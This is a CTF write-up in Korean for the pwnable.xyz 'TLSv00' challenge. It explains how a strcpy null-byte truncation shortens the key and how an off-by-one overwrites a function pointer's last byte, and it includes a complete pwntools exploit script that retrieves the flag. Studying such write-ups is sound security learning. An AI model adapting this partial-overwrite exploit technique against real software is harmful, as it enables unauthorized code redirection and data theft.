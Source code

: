 # [pwnable.xyz] TLSv00

> Transport the flag securely, right?

## Bug

![image](https://github.com/user-attachments/assets/b8b03e26-fee0-44c0-acf5-12945b400d57)

`generate_key()`에서 `s`에 random key를 생성한 후 `strcpy()`로 `key`에 복사한다.

기존의 key보다 1바이트만큼 짧은 key를 생성할 경우, `strcpy()`로 복사할 때 null terminator에 의해 기존의 key의 마지막 1바이트가 사라지게 된다. 이를 이용하면 key의 길이를 1바이트까지 줄일 수 있다.

![image](https://github.com/user-attachments/assets/f7b41aac-15c7-4ee7-a4f5-8de7b2a7accc)

또한, `0x40`바이트짜리 key를 생성할 경우, off-by-one이 발생하여 `do_comment`의 마지막 1바이트를 null byte로 덮어쓸 수 있다.

![image](https://github.com/user-attachments/assets/c27e3e14-5503-4d71-9e56-b1a97f2b1549)

`do_comment`에 있는 `f_do_comment()`의 주소의 마지막 1바이트가 null byte가 되면 `real_print_flag()`의 주소가 된다.

## Exploit

Key를 1바이트로 만든 후 `load_flag()`를 호출하면 flag가 사실상 평문인 상태로 메모리에 올라간다. 그 상태에서 `do_comment`에 `real_print_flag()`의 주소를 넣고 `print_flag()`를 호출하면 플래그를 획득할 수 있다.

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30006)

sla = r.sendlineafter
sa = r.sendafter


def regen_key(key_len):
    sla(b"> ", b"1")
    sla(b"key len: ", str(key_len).encode())


def load_flag():
    sla(b"> ", b"2")


def print_flag(survey, comment):
    sla(b"> ", b"3")
    sa(b"Wanna take a survey instead? ", survey)
    if survey == b"y":
        sa(b"Enter comment: ", comment)


# write address of real_print_flag() on do_comment
print_flag(b"y", b"a")
regen_key(0x40)


# Decrypt flag
for l in range(0x3F, 0, -1):
    regen_key(l)
load_flag()


# print flag
print_flag(b"n", b"a")


r.interactive()
```

![image](https://github.com/user-attachments/assets/709c3d66-8a91-4012-ada6-aba9d2d93ae9)

